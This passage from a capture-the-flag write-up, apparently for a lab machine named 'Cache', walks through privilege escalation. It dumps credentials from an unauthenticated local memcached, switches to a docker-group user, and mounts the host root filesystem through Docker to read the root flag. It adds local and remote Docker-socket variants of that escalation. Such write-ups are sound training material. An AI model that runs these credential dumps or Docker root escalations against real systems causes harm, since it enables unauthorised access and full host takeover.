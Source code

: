 ##### 5.1. Privesc to second user

1. Interesting process running (close to box name)

```
memcache  1108  0.0  0.1 425792  4044 ?        Ssl  12:00   0:00 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid
```

2. Interacting with `memcache`

```
ash@cache:~$ telnet localhost 11211
```


3. `memcache` stats

```
stats slabs
STAT 1:chunk_size 96
STAT 1:chunks_per_page 10922
STAT 1:total_pages 1
STAT 1:total_chunks 10922
STAT 1:used_chunks 5
STAT 1:free_chunks 10917
STAT 1:free_chunks_end 0
STAT 1:mem_requested 371
STAT 1:get_hits 0
STAT 1:cmd_set 365
STAT 1:delete_hits 0
STAT 1:incr_hits 0
STAT 1:decr_hits 0
STAT 1:cas_hits 0
STAT 1:cas_badval 0
STAT 1:touch_hits 0
STAT active_slabs 1
STAT total_malloced 1048576
END
```

4. `memcache` data dump - info

```
stats cachedump 1 1000
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
```

5. `memcache` data dump - creds

```
get user
VALUE user 0 5
luffy
END
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
```

6. Access to `luffy` user

```
ash@cache:~$ su - luffy
Password: 0n3_p1ec3
luffy@cache:~$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```

##### 5.2. Root flag

1. Ubuntu image is present

```
luffy@cache:~$ docker --version
Docker version 18.09.1, build 4c52b90
luffy@cache:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        7 months ago        64.2MB
```

2. Classic Docker privesc

```
luffy@cache:~$ docker run -v /:/mnt --rm -it ubuntu bash
root@eea57746ba1a:/mnt/root# ls -la
total 44
drwx------  6 root root 4096 May  5 11:21 .
drwxr-xr-x 23 root root 4096 May  5 11:14 ..
lrwxrwxrwx  1 root root    9 May  5 11:21 .bash_history -> /dev/null
-rw-r--r--  1 root root 3145 Sep 18  2019 .bashrc
drwx------  2 root root 4096 Sep 18  2019 .cache
drwx------  3 root root 4096 Sep 18  2019 .gnupg
drwxr-xr-x  3 root root 4096 Sep 17  2019 .local
lrwxrwxrwx  1 root root    9 May  5 11:21 .mysql_history -> /dev/null
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Sep 18  2019 .selected_editor
drwx------  2 root root 4096 Sep 17  2019 .ssh
-rw-------  1 root root  532 Sep 17  2019 .viminfo
-rw-------  1 root root   33 May 12 12:01 root.txt
root@eea57746ba1a:/mnt/root# cat root.txt
201b6fa2bec627b214f9efa717fd2f1c
```

Note on docker file-share "privesc":

- local
```
# docker run -v /:/mnt --rm -it debian bash
C:\>docker run -v C:\\:/mnt --rm -it debian bash
```

- remote
```
# docker -H tcp://<remote_ip>:2375 run --rm -it -v C:\\:/mnt/win debian bash
# docker -H tcp://<remote_ip>:2375 run --rm -it -v /:/mnt/linx debian bash
```
